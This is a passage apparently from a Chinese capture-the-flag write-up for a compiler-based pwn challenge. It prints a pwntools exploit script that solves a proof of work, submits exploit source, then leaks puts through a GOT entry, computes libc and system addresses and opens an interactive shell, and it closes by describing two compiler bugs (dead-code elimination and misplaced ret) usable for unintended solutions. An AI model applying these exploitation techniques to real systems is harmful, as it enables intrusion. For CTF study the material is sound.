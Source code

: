 ```plain
  difficulty = int(p.recvuntil(b" ", drop=True).decode())
  p.recvline()

  solution = proof_of_work(chal, difficulty)
  p.sendline(str(solution).encode())

def send_src(p, src):
  p.recvuntil(b"Give me your code, ended by a line with 'END_OF_SNIPPET' (excluding quote).\n")
  lines = open(src, 'r').readlines()
  for line in lines:
    p.sendline(line.strip().encode())
  p.sendline(b"END_OF_SNIPPET")

if not LOCAL:
  p = remote("localhost", 9999)
  send_token(p)
  solve_pow(p)
  send_src(p, "./exploit/exp.klang")
else:
  local_compile("./exploit/exp.klang")
  p = process("./build/out")
  log.info("PID = " + str(p.pid))

GOT_ADDR = 0x404018
p.recvuntil(b"hello\n")

#payload = p64(GOT_ADDR) + p64(0x1000)
payload = p64(GOT_ADDR) + b"B" * 8 + b"C" * 8
p.sendline(b"2")
p.sendline(payload)
p.sendline(payload)
p.sendline(b"1")
p.sendline(b"a")
p.sendline(b"a")

p.recvline()
puts = int(p.recvline().strip().decode())
log.info("puts_got = " + hex(puts))

libc = puts - 0x000000000084420
system = libc + 0x0000000000052290 
p.sendline(str(system))

p.interactive()
```

### 非预期解法

1.  在IR优化中的DCE部分，对于Call, CallVoid, ArrayStore IR的处理存在问题：由于该指令并非BB中的Terminator，如果该IR的后面其使用的寄存器被再次赋值，会导致其之前的Assign IR被错误的消除掉。利用该bug可以消除掉函数开头的初始化操作。
2.  在IR生成部分存在bug：对于do-while中出现return语句的情况没有进行正确的处理，导致ret指令可以出现在BB中间。利用该bug可以跳至程序中任意地址。
